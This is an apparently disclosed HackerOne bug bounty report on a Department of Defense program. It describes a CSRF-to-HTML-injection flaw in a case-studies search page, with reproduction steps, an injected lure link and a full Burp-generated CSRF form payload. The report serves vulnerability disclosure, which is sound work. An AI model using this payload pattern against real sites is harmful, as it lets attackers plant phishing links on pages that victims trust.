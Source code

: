 # CSRF to Stored HTML injection at https://www.█████

## Report Details
- **Report ID**: 1014593
- **URL**: https://hackerone.com/reports/1014593
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-21T11:10:46.068Z
- **Disclosed**: 2020-12-03T21:31:12.163Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
I have found out that on the https://www.███████ domain, you initiate POST request in order to look up for case studies, the parameter keyword on the request, allows the usage of bad characters such as < " ', although XSS payloads are pretty secured, HTML injection is an option.

As you might notice because this is a POST request, and the content is not initiated by the URL, i need to chain it with CSRF so the victim will get presented the malicious infected page, which you will see on the Video PoC, even upon refreshing is remain infected with the injection, only when you open a new tab, the page rests.

This allows me implementing malicious links and contents inside the case studies search page.

████████


## Step-by-step Reproduction Instructions

1. Navigate to https://www.█████
2. Craft a malicious HTML injection as you wish, I have injected: "<a href=https://naglinagli.github.io>Click here to win 1000$!</a>"
3. Save the POST request and craft CSRF payload.

## HTML snippet of the CSRF payload:
```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.███████" method="POST">
      <input type="hidden" name="keyword" value="&lt;a&#32;href&#61;https&#58;&#47;&#47;naglinagli&#46;github&#46;io&gt;Click&#32;here&#32;to&#32;win&#32;1000&#36;&#33;&lt;&#47;a&gt;" />
      <input type="hidden" name="Find&#32;Case&#32;Studies" value="Find&#32;Case&#32;Studies" />
      <input type="hidden" name="crimetype" value="none" />
      <input type="hidden" name="year" value="none" />
      <input type="hidden" name="gender" value="search&#46;php" />
      <input type="hidden" name="employeetype" value="none" />
      <input type="hidden" name="age" value="none" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Suggested Mitigation/Remediation Actions

Sanitizing malicious characters on the keyword parameter.

##Best Regards,
nagli

## Impact

CSRF to Stored HTML injection on the case-studies search page.

## Attachments
No attachments
